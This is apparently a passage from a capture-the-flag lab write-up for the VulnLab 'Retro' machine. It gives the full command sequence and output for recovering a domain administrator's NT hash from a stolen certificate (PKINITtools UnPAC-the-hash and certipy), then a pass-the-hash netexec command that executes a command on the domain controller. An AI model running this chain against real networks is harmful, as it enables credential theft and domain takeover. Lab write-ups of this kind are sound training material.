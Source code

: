 We can use the technique UnPAC the hash to get the NTLM hash using the <a target="_blank" href="https://github.com/dirkjanm/PKINITtools">PKINITtools</a>.

First we need to retrieve the TGT and the AS-REP encryption key.

```
syl@sylsec:~/vulnlab/Retro/temp$ gettgtpkinit -cert-pfx ../exfiltrated/administrator.pfx -dc-ip 10.10.113.62 retro.vl/administrator ../exfiltrated/administrator.ccache 
2023-12-19 20:53:00,328 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-12-19 20:53:00,802 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2023-12-19 20:53:00,889 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2023-12-19 20:53:00,889 minikerberos INFO     23f920ec14a57021c38d9c8c806ce53929774cf8a79d23049587624d2b7378ec
INFO:minikerberos:23f920ec14a57021c38d9c8c806ce53929774cf8a79d23049587624d2b7378ec
2023-12-19 20:53:00,895 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Then we can use the `getnthash.py` to retrieve the NTLM hash.

```
syl@sylsec:~/vulnlab/Retro/exfiltrated$  getnthash retro.vl/administrator -key 23f920ec14a57021c38d9c8c806ce53929774cf8a79d23049587624d2b7378ec   
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
25....<hash>
```

# Using Certipy Method #2

```
syl@sylsec:~/vulnlab/Retro$ certipy auth -pfx ./exfiltrated/administrator.pfx -dc-ip '10.10.64.243' -username 'administrator' -domain retro.vl
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@retro.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aad3b435b51404eeaad3b435b51404ee:25<hash>
```

Then we can use that that hash for PTH (Pass the hash) attack.

```
syl@sylsec:~/vulnlab/Retro$ netexec smb 10.10.64.243 -u administrator -H 25<hash> -x "cmd /c type C:\Users\Administrator\Desktop\root.txt"
SMB         10.10.64.243    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.243    445    DC               [+] retro.vl\administrator:25<hash> (Pwn3d!)
SMB         10.10.64.243    445    DC               [+] Executed command via wmiexec
SMB         10.10.64.243    445    DC               VL{<hash>}
```